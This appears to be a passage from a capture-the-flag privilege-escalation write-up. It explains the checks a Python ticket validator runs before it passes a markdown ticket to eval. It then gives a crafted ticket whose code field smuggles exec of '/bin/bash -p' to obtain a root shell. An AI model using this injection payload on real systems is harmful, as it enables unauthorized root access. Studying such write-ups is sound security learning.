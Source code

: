 ```python
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```
Here, the script checks few things:
- looks for .md extension, 
- First row starts with "# Skytrain Inc"
- Second row starts with "## Ticket to "
- There needs to be a line that starts with "\_\_Ticket Code:_\_\"
- Ticket number divided by 7 should have remaineder 4

Upon satisfying the above condition, its calling `eval` function.
Eval function can be dangerous in Python. 

To exploit it, we need to make a markdown file satisfying all the conditions and hit the eval function to get our malicious code to execute.

Our Malicious Markdown file can be created as follows:
```markdown
# Skytrain Inc
## Ticket to abc
__Ticket Code:__
**11+exec('''import os;os.system('/bin/bash -p')''')
```

Running the python script with above markdown file gave us Root shell.
ROOT!!
